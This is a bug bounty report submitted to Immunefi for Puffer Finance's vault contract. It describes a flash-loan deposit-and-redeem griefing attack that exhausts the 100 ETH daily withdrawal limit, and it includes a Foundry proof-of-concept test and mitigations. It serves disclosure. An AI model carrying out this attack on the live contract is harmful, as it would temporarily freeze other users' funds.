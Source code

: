 
# Blocking redeem/withdraw from vault

Submitted on Feb 23rd 2024 at 04:20:29 UTC by @DuckAstronomer for [Boost | Puffer Finance](https://immunefi.com/bounty/pufferfinance-boost/)

Report ID: #28656

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

Impacts:
- Temporary freezing of funds for at least 1 hour

## Description
## Vulnerability Details
The attacker can deplete daily withdrawal limit by taking flash loan, making a deposit and an immediate withdrawal. There is no risks or fees involved for the attacker. This behavior prevents benign users from redeeming/withdrawing from the vault.

By default there is a `100 ETH` daily limit for withdrawal.

```solidity
function initialize() public reinitializer(2) {
    // In this initialization, we swap out the underlying stETH with WETH
    ERC4626Storage storage erc4626Storage = _getERC4626StorageInternal();
    erc4626Storage._asset = _WETH;

    _setDailyWithdrawalLimit(100 ether);  // @audit
    _updateDailyWithdrawals(0);
}
```

To mitigate the issue:
 - Replenish the daily limit whenever a mint/deposit occur.
 - Prohibit flash deposit-redeem actions taking place in one tx.



## Proof of Concept
To run the PoC place the file inside `test/Integration/Immunefi.fork.t.sol` and run the following command.

```
ETH_RPC_URL=URL forge test --mp test/Integration/Immunefi.fork.t.sol --mt test_griefing  --fork-url URL --fork-block-number 19285430
```

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.8.0 <0.9.0;

import { TestHelper } from "../TestHelper.sol";

import "forge-std/console.sol";

contract Immunefi is TestHelper {

    error ERC4626ExceededMaxRedeem(address owner, uint256 shares, uint256 max);

    // ETH_RPC_URL=URL forge test --mp test/Integration/Immunefi.fork.t.sol --mt test_griefing  --fork-url URL --fork-block-number 19285430
    function test_griefing() public {
        address attacker = address(101);
        address user = address(102);

        vm.deal(user, 10 ether);

        // 1. User deposits ETH.
        vm.startPrank(user);
        uint256 shares = pufferVault.depositETH{value: 10 ether}(user);
        vm.stopPrank();

        // 2. Attacker takes flash loan, deposits and then redeems.
        //    No loses/risks/fees for the attacker.
        //    Attacker depletes daily withdraw limit, which is 100 ETH by default.
        vm.deal(attacker, 100 ether);
        vm.startPrank(attacker);
        uint256 shares_attacker = pufferVault.depositETH{value: 100 ether}(attacker);
        pufferVault.redeem(shares_attacker, attacker, attacker);
        vm.stopPrank();

        // 3. No one can redeem/withdraw.
        vm.startPrank(user);
        vm.expectRevert(
            abi.encodeWithSelector(ERC4626ExceededMaxRedeem.selector, user, shares, pufferVault.maxRedeem(user))
        );
        pufferVault.redeem(shares, user, user);
        vm.stopPrank();
    }
}
```